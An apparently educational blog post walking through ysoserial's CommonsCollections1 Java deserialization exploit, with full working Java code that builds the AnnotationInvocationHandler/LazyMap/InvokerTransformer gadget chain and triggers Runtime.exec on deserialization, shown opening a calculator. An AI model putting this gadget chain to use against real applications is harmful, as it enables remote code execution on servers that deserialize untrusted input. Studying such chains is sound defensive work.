



Understanding ysoserial's CommonsCollections1 exploit
Table of Contents
Last year(2015), ysoserial was released by frohoff and gebl. It is a fantastic piece of work. The tool provides options to generate several different types of serialized objects, which when deserialized, can result in arbitrary code execution if the right classes are present in the classpath. In this post, I will discuss the CommonsCollections1 exploit, and its working, available in the ysoserial toolkit.
All code snippets used in this post are sourced from ysoserial
1 An Overview
The CommonsCollections1 exploit builds a custom AnnotationInvocationHandler object that contains an InvokerTransformer (Apache Commons Collections class)payload, and outputs the serializaed object. When the serialized object is deserialized, the code path from AnnotationInvocationHandler's readObject leads to InvokerTransformer's payload, causing code execution.
The image below shows the custom AnnotationInvocationHandler object used for RCE.
When the serialized object is deserialized, the code path from AnnotationInvocationHandler's readObject leads to Invoker Transformer's payload, causing code execution.
The image below shows the custom AnnotationInvocationHandler object used for RCE.

Figure 1: The serialized AnnotationInvocationHandler
What makes the exploit effective is that it only relies on the classes present in Java and Apache Commons Collections. The CommonsCollections1 leverages following classes from JDK and Commons Collections.
From JDK
1. AnnotationInvocationHandler
2. Proxy
3. Map
4. Override
5. InvocationHandler
6. Runtime
From Commons Collections
1. LazyMap
2. Transformer
3. ChainedTransformer
4. InvokerTransformer
So, as long a Java software stack contains Apache commons Collections library(<= 3.2.1), it will be vulnerable to remote execution attacks while deserializing untrusted objects.
2 Pre-requisities
It will be helpful to refer to the following Classes and concepts as we work our way to understaing the exploit.
1. Java Serialization and Deserialization mechanisms
2. ObjectInputStream - including readObject()
3. Proxy
4. InvocationHandler
5. Transformer
6. LazyMap
7. ChainedTransformer
8. InvokerTransformer - Instances of this class were used to perform code execution and we will discuss this in more details below.
Since InvokerTransformer class is the eventual sink that performs code execution, lets us take a closer look at it. An InvokerTransformer constructor takes three parameters:
1. Name of the method
2. Parameter types the method accepts
3. Parameters values

Figure 2: The constructor of InvokerTransformer
An InvokerTransformer instance accepts an object as input and outputs the transformed object. The tranformation is determined by the instatiation parameters. The InvokerTransformer first finds a method with the method name (specified as first parameter) that accepts the given parameters types (specified as second paramter) on the incoming object. Upon finding a matching method, the method on the incoming object and the parameter values from (3) as passed arguments into the method. The returned value is the value of the method execution.

Figure 3: Shows InvokerTransformer
3 Payload Only Execution
Assuming you understand how Transformers, ChainedTransformers and LazyMaps work, we will look at CommonsCollections1's payload only execution using a ChainedTransformer. When you run the class below, it will open a calculator on a Mac.
public class CommonsCollections1PayloadOnly {
public static void main(String... args) {
String[] command = {"open -a calculator"};
final Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class), //(1)
new InvokerTransformer("getMethod",
new Class[]{ String.class, Class[].class},
new Object[]{"getRuntime", new Class[0]}
), //(2)
new InvokerTransformer("invoke",
new Class[]{Object.class, Object[].class},
new Object[]{null, new Object[0]}
), //(3)
new InvokerTransformer("exec",
new Class[]{String.class},
command
) //(4)
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
Map map = new HashMap<>();
Map lazyMap = LazyMap.decorate(map, chainedTransformer);
lazyMap.get("gursev");
}
}
The image below the execution flow when the chainedTransformer in the code snippet above is executed while setting a value on the lazyMap. The number in braces correspond to the individual Transformer execution in the code snippet above.
Figure 4: Show chainedTransformer invocation when a value is set on the LazyMap
4 Putting it all together
The code below performs both serialization and deserialization. It also executes the command to open a calculator during the deserialization process.
1. The getEvilObject creates a Java Object that can arbitary code when deserialized. The object structure is provided in Figure 1.
2. The serializeToByteArray method serializes the evilObject to a byte array.
3. The deserializeFromByteArray deserializes the object from the binary array. If Apache CommonCollections library(<=3.2.1) is present in the classpath, the command also gets executed.
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
public class CommonsCollections1All {
public static void main(String... args) throws ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException, IOException {
Object evilObject = getEvilObject();
byte[] serializedObject = serializeToByteArray(evilObject);
deserializeFromByteArray(serializedObject);
}
public static Object getEvilObject() throws ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException {
String[] command = {"open -a calculator"};
final Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod",
new Class[]{ String.class, Class[].class},
new Object[]{"getRuntime", new Class[0]}
),
new InvokerTransformer("invoke",
new Class[]{Object.class, Object[].class},
new Object[]{null, new Object[0]}
),
new InvokerTransformer("exec",
new Class[]{String.class},
command
)
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
Map map = new HashMap<>();
Map lazyMap = LazyMap.decorate(map, chainedTransformer);
String classToSerialize = "sun.reflect.annotation.AnnotationInvocationHandler";
final Constructor<?> constructor = Class.forName(classToSerialize).getDeclaredConstructors()[0];
constructor.setAccessible(true);
InvocationHandler secondInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);
Proxy evilProxy = (Proxy) Proxy.newProxyInstance(CommonsCollections1All.class.getClassLoader(), new Class[] {Map.class}, secondInvocationHandler );
InvocationHandler invocationHandlerToSerialize = (InvocationHandler) constructor.newInstance(Override.class, evilProxy);
return invocationHandlerToSerialize;
}
public static void deserializeAndDoNothing(byte[] byteArray) throws IOException, ClassNotFoundException {
ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(byteArray));
ois.readObject();
}
public static byte[] serializeToByteArray(Object object) throws IOException {
ByteArrayOutputStream serializedObjectOutputContainer = new ByteArrayOutputStream();
ObjectOutputStream objectOutputStream = new ObjectOutputStream(serializedObjectOutputContainer);
objectOutputStream.writeObject(object);
return serializedObjectOutputContainer.toByteArray();
}
public static Object deserializeFromByteArray(byte[] serializedObject) throws IOException, ClassNotFoundException {
ByteArrayInputStream serializedObjectInputContainer = new ByteArrayInputStream(serializedObject);
ObjectInputStream objectInputStream = new ObjectInputStream(serializedObjectInputContainer);
InvocationHandler evilInvocationHandler = (InvocationHandler) objectInputStream.readObject();
return evilInvocationHandler;
}
}
The code path flow leading to code execution is discuessed below and is also summarized in figure 5.
1. The ObjectInputStream calls the readObject() method.
2. On method invocation, the JVM looks for the serialized Object's class in the classpath. If the class is not found, ClassNotFoundException is thrown. If the class is found, readObject() method of the identified class (AnnotationInvocationHandler) is invoked. This process is followed for all types of objects that get serialized with the CommonsCollections1 payload.
3. The readObject method inside the AnnotationInvocationHandler invokes entrySet method on the MapProxy.
4. The method invocation on the Proxy is transferred to AnnotationInvocationHandler coressponding to the MapProxy instance along with the method and a blank array.
5. The lazyMap attempts to retrieve a value with key equal to the method name "entrySet".
6. Since that key does not exist, the lazyMap instance goes ahead and tries to create a new key with the name "entrySet".
7. Since a chainedTransformer is set to execute during the key creation process, the chained transformer with the malicious payload is invoked, leading to remote code execution.

Figure 5: Show the code path to RCE
The following three images show the actual code path traversed from AnnotationInvocationHandler class leading up to LazyMap's ChainedTransformer invocation, resulting in RCE.

Figure 6: Shows AnnotationInvocationHandler's readObject() method that calls entrySet() on mapProxy

Figure 7: Shows AnnotationInvocationHandler's invoke method that was attached to the mapProxy

Figure 8: Shows transformer invocation when a key is not present